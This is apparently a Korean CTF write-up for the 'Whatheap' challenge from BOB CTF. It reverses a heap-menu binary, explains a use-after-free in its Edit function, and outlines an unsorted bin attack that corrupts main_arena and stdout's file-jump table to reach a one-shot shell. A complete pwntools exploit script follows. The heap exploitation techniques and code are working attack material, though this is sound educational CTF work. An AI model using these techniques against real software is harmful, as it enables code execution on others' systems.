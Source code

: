 ```yaml
---
layout: post
title: BOB CTF - Whatheap Writeup
---
```


[Downoad](http://file.c2w2m2.com/whatheap)

### Reversing

먼저 바이너리를 둘러보면, system("/bin/sh")를 실행시켜주는 함수가 있으니 염두해 두고 시작한다.

![menu](https://i.imgur.com/FOwXpeN.png)

다음과 같은 메뉴가 있다. 하나하나 차례대로 살펴보자.

#### Malloc

Malloc함수를 먼저 한줄한줄 뜯어보자.

![Malloc](https://i.imgur.com/Jl25J7o.png)

먼저 처음 for문을 통해서 비어있는 공간을 찾는다. 공간을 찾으면, Size를 입력받고 이 Size가 200 ~ 300 범위에 있는지를 확인한다.

![Malloc-2](https://i.imgur.com/PSKjfHc.png)

그리고 입력받은 Size만큼 malloc을 하고, Data를 넣는데, 이때 받는 Data의 최소 길이는 16byte다. 그 이후 View함수를 출력하여 값을 확인시켜준다.



#### Free

![Free](https://i.imgur.com/pmqoGiS.png)

처음에 LODWORD(heap_context[2 * a1 + 1])을 Check하는데, 이 flag가 Free가 되었는지를 확인하는 flag임을 확인할 수 있다.

만약 Free가 안되었을경우, free를 진행하고, flag를 세팅해준다.



#### Edit

![Edit](https://i.imgur.com/wGwR7Wh.png)

Edit함수에서는 context에 있는 data를 수정할 수 있다.

이부분에서 이 chunk가 free가 되었는지를 체크하지 않아서, 취약점이 발생한다.



#### View

![View](https://i.imgur.com/pNYuvcl.png)

View를 보면 엄청 길지만, 중요한것은 이부분밖에없다. Free에서 봤듯이 단순한 Free가 되었는지를 체크한다.



### Scenario

우리가 할 수 있는것은 단순히 free된 chunk를 수정할 수 있다는 것 밖에 없다.

여기서 우리가 할 수 있는 공격은 unsorted bin attack이 있다. 하지만 free된 chunk를 볼 수 없으므로, Libc leak이 불가능하다.

따라서 House of Orange같은 공격을 바로 진행하는것이 불가능하다. 

그러므로 unsorted bin attack으로 노려야 할곳은 바로 heap_context이다. 이부분에 있는 heap pointer를 덮음으로써, 

main_arena를 자유롭게 수정할 수 있게 된다. 이를 수정함으로써 unsorted bin attack으로 인해서 깨졌던 main_arena를 고칠 수 있고,

libc leak, heap leak을 진행할 수도 있다.  leak을 진행한 후에, main_arena를 Fake _IO_FILE_JUMP로 만들 수 있다. 

그 후에 고친 main_arena로 인해서 unsorted bin attack이 한번 더 진행이 가능하고,

이때 stdout에 있는 _IO_file_Jump를 타겟으로 unsorted bin attack을 진행하면, main_arena의 값이 적히게 된다.

그러면 puts가 불릴때, main_arena의 주소로 뛰게 될것이고, 여기에는 우리가 적은 oneshot의 주소가 있을테니 Shell을 얻을 수 있다.

1. Unsorted bin attack으로 heap_context를 overwrite
2. heap_context를 Edit하면서 heap & libc leak
3. leak후에 main_arena를 정상으로 고치고, 뒷부분엔 oneshot의 주소를 적음
4. 한번 더 Unsorted bin attack으로 stdout의 _IO_FILE_JUMP를 overwrite
5. Get shell



### Exploit

```python
from pwn import *
    
def Malloc(size, data):
    p.recvuntil(":> ")
    p.send('1')
    p.recvuntil(":> ")
    p.send(str(size))
    p.recvuntil(":> ")
    p.send(data)

def Free(idx):
    p.recvuntil(":> ")
    p.send('2')
    p.recvuntil(":> ")
    p.send(str(idx))

def Edit(idx, data):
    p.recvuntil(":> ")
    p.send('3')
    p.recvuntil(":> ")
    p.send(str(idx))
    p.recvuntil(":> ")
    p.send(data)

def View(idx):
    p.recvuntil(":> ")
    p.send('4')
    p.recvuntil(":> ")
    p.send(str(idx))

if __name__ == '__main__':
    p = process("./whatheap")
    elf = ELF("./prob")
    libc = elf.libc

    Malloc(256, "A"*16)
    Malloc(256, "B"*16)
    Free(0)

    Edit(0, p64(0) + p64(0x602070 - 0x10))
    Malloc(256, "C"*16)

    View(1)
    p.recvuntil("--+\n")
    p.recvuntil("|")
    leak2 = p.recvuntil("|")[:-1]
    leak2 = leak2[125:]
    leak2 = u64(leak2.ljust(8,'\x00'))
    log.info("Leak2 : 0x%x" % leak2)
    pause()
    Edit(1, "A"*32)

    View(1)
    p.recvuntil("A"*32)
    leak = u64(p.recv(6).ljust(8,'\x00'))
    libcbase = leak - 0x3c4b78 - 0x10

    log.info("Leak : 0x%x" % leak)
    log.info("Libcbase : 0x%x" % libcbase)
    pause()
    Edit(1, p64(leak2) + p64(0) + p64(leak-0x10)*2 + p64(0x00000000040097e)*4)

    IO_file_jump = libcbase + 0x3C56F8
    print "0x%x" % IO_file_jump
    Malloc(256, "D"*16)
    Malloc(256, "E"*16)
    Free(2)
    Edit(2, p64(leak) + p64(IO_file_jump - 0x10))
    
    p.recvuntil(":> ")
    p.send('1')
    p.recvuntil(":> ")
    p.send('256')
    p.interactive()


```

![shell](https://i.imgur.com/LOSmaI2.png)

참고로 이문제는 system32.kr에 올라와있는 pwnable문제를 매우 조금 수정한것이다..(grin)
